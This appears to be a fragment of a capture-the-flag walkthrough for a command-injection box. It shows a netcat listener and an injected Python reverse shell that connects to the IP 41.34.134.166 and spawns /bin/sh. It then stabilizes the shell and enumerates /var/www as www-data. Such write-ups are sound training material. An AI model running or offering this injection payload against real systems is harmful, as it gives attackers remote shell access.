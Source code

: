* search about  reverse shell 
*  [`https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* befor you run the command,you shoud use nc listener
* `nc -nlvp 80000`
* `127.0.0.1; python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("41.34.134.166",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

<img src="/img/injector/shell.PNG" alt="Getting-gz" width="800" height="440">

<img src="/img/injector/connect.PNG" alt="Getting-gz" width="800" height="170">

  * stabilizing shell `python3 -c 'import pty;pty.spawn("/bin/bash")'`
  * now on `www-data` we should get a user
  * found photo in `/var/www`

<img src="/img/injector/photo.PNG" alt="Getting-gz" width="800" height="170">

<img src="/img/injector/photo1.PNG" alt="Getting-gz" width="800" height="100">
